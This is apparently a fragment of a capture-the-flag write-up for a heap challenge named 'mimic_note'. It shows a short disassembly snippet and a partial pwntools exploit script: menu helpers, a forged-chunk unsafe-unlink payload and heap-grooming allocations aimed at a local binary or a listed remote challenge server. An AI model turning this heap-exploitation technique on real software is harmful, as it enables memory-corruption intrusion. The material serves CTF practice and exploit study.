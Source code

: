 ```asm
.text:0804890A                 push    eax             ; nptr
.text:0804890B                 call    _atoi
```

## exp.py

```py
#coding=utf-8
from pwn import *
context.update(arch='amd64',os='linux',log_level="DEBUG")
context.terminal=['tmux','split','-h']
debug = 1
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
elf64 = ELF('./mimic_note_64')
elf32 = ELF('./mimic_note_32')
if debug:
    #p = process('./mimic_note_64')
    p = process('./mimic_note_32')

else:
    p = remote('45.32.120.212',6666)

def New(size):
    p.recvuntil('>> ')
    p.sendline('1')
    p.recvuntil('size?\n')
    p.sendline(str(size))

def Delete(index):
    p.recvuntil('>> ')
    p.sendline('2')
    p.recvuntil('index ?\n')
    p.sendline(str(index))

def Show(index):
    p.recvuntil('>> ')
    p.sendline('3')
    p.recvuntil('index ?\n')
    p.sendline(str(index))

def Edit(index,content):
    p.recvuntil('>> ')
    p.sendline('4')
    p.recvuntil('index ?\n')
    p.sendline(str(index))
    p.recvuntil('content?')
    p.send(content)

def exp():
    #64 bit unlink
    heap_lis_64 = 0x6020A0
    fd = heap_lis_64 - 0x18
    bk = heap_lis_64 - 0x10
    payload = p64(0)+p64(0x30)+p64(fd)+p64(bk)+p64(0)*2+p64(0x30)
    New(0x38)#0
    New(0xf8)#1
    New(0xf7)#2
    #paddings
    for i in range(10):
        New(0x68)#3-12
    New(0x1c)#13
    New(0xfc)#14
    New(0xf7)#15
```